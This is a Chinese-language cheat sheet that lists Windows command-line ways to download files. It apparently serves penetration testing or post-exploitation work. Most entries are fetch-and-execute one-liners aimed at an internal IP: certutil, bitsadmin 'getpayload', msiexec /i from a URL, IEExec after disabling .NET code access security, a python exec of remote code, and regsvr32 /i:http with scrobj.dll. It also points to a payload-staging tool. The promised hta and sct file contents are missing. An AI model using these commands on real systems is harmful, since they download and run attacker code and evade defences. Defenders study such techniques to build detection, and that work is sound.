Windows下命令行下载文件总结

* [0x00 Powershell](#0x00-powershell)
* [0x01 ftp](#0x01-ftp)
* [0x02 IPC$](#0x02-ipc)
* [0x03 Certutil](#0x03-certutil)
* [0x04 bitsadmin](#0x04-bitsadmin)
* [0x05 msiexec](#0x05-msiexec)
* [0x06 IEExec](#0x06-ieexec)
* [0x07 python](#0x07-python)
* [0x08 mshta](#0x08-mshta)
* [0x09 rundll32](#0x09-rundll32)
* [0x10 regsvr32](#0x10-regsvr32)
* [结语](#%e7%bb%93%e8%af%ad)

## 0x00 Powershell

win2003、winXP不支持

$client = new-object System.Net.WebClient

$client.DownloadFile('http://www.baidu.com/file.tar.gz', 'E:\file.tar.gz')

## 0x01 ftp

ftp 192.168.3.2

输入用户名和密码后

lcd E:\file # 进入E盘下的file目录

cd www # 进入服务器上的www目录

get access.log # 将服务器上的access.log下载到E:\file

可以参考：https://baike.baidu.com/item/ftp/13839

## 0x02 IPC$

copy \192.168.3.1\c$\test.exe E:\file

可以参考：http://www.163164.com/jiqiao/163164com011.htm

## 0x03 Certutil

可以参考：https://technet.microsoft.com/zh-cn/library/cc773087(WS.10).aspx

应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2

certutil.exe -urlcache -split -f http://192.168.3.1/test.txt file.txt

## 0x04 bitsadmin

可以参考：https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx

* 1、 `bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt`
* 2、 `bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt`

## 0x05 msiexec

msiexec /q /i http://192.168.3.1/test.txt

## 0x06 IEExec

C:\Windows\Microsoft.NET\Framework\v2.0.50727> caspol -s off

C:\Windows\Microsoft.NET\Framework\v2.0.50727> IEExec http://192.168.3.1/test.exe

## 0x07 python

C:\python27\python.exe -c "import urllib2; exec urllib2.urlopen('http://192.168.3.1/test.zip').read();"

## 0x08 mshta

mshta http://192.168.3.1/run.hta

run.hta 内容如下：

## 0x09 rundll32

其实还是依赖于WScript.shell这个组件

## 0x10 regsvr32

regsvr32 /u /s /i:http://192.168.3.1/test.data scrobj.dll

test.data内容：

还可以利用 https://github.com/CroweCybersecurity/ps1encode 生成sct(COM scriptlet - requires a webserver to stage the payload)

regsvr32 /u /s /i:http://192.168.3.1/test.sct scrobj.dll
